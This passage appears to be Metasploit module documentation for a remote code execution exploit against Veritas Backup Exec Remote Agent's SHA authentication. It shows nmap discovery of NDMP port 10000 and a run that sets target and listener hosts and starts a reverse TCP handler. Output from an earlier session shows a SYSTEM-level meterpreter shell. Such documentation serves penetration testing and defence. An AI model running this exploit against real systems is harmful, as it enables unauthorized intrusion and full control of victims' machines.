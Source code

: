 ```
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

## Options

### INTERPRETER
The command line interpreter for executing Linux OS command. By default, the option is
`/bin/bash`. For Windows the option does not matter and the command will always be
executed using `C:\Windows\System32\cmd.exe`.

## Scenarios

The Backup Exec Remote Agent is installed on each host that has local filesystems
that should be backed up. These agents listen on the network for NDMP connections
(10000/tcp), appearing in Nmap scans with scripts enabled as follows:

```
$ nmap -p10000 -n 172.16.180.0/24 --open -vvv
...
Discovered open port 10000/tcp on 172.16.180.133
Discovered open port 10000/tcp on 172.16.180.132
Discovered open port 10000/tcp on 172.16.180.141
...
$ nmap -p10000 -n -sV 172.16.180.133
...
10000/tcp open  ndmp    Symantec/Veritas Backup Exec ndmp (NDMPv3)
...
```

(Note that the `ndmp-version` script fails to execute due to not sending an
`NDMP_CONNECT_OPEN` request before querying version information with the
`NDMP_CONFIG_GET_HOST_INFO` request. This exploit module's `check` command will
carry this query out successfully.)

### Windows; Backup Exec 21.0 (Backup Exec Remote Agent, revision 9.3)
```
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set rhosts 192.168.123.147
rhosts => 192.168.123.147
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 192.168.123.147:10000 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.123.147:10000 - Checking vulnerability
[*] 192.168.123.147:10000 - Connecting to BE Agent service
[*] 192.168.123.147:10000 - Getting supported authentication types
[*] 192.168.123.147:10000 - Supported authentication by BE agent: BEWS2 (190), SHA (5), SSPI (4)
[*] 192.168.123.147:10000 - BE agent revision: 9.3
[+] 192.168.123.147:10000 - The target appears to be vulnerable. SHA authentication is enabled
[*] 192.168.123.147:10000 - Exploiting ...
[*] 192.168.123.147:10000 - Connecting to BE Agent service
[*] 192.168.123.147:10000 - Enabling TLS for NDMP connection
```